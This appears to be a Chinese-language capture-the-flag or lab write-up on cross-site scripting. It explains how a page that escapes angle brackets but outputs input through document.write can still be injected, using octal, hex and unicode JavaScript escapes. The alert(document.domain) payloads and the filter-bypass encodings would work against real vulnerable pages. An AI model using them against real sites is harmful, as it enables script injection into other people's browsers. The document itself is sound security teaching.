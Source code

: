 输入：

```javascript
<script>alert(document.domain)</script>
```

源码查看，不是审查元素

```javascript
<script>document.write("&lt;script&gt;alert(document.domain)&lt;/script&gt;");</script>
```

可以看到 `< > `这两个字符被替换为`"&lt;`和`&gt`;，说明有过滤！

由于此页使用`document.write(value)`，来写出内容，所以肯定存在注入！

控制台

```javascript
alert("\u003c") //显示符号 <
\u0061lert("123") //123
```

JS支持这种写法，此处注入：

```javascript
\\74script\\76alert(document.domain);\\74/script\\76
```

能成功的原因在于使用：

```javascript
document.write();
```

执行了js，将字符串编译了！



## JS编码（\转义字符+八进制 || 十六进制 || unicode）<<a href="http://www.cnblogs.com/ecalf/archive/2012/09/04/unicode.html">参见</a>>

>**所有的ASCII码都可以用`\`加数字（一般是8进制数字）来表示。`\x`表示后面的字符是十六进制数，`\`表示后面的字符是八进制数。**<br> 

八进制（`\`+八进制）

```javascript
\74script\76alert(document.domain);\74/script\76
```

十六进制
	
```javascript
\x3cscript\x3ealert(document.domain);\x3c/script\x3e
```

发现过滤了单个 `\`

Octonary：

```javascript
\\74script\\76alert(document.domain);\\74/script\\76
```
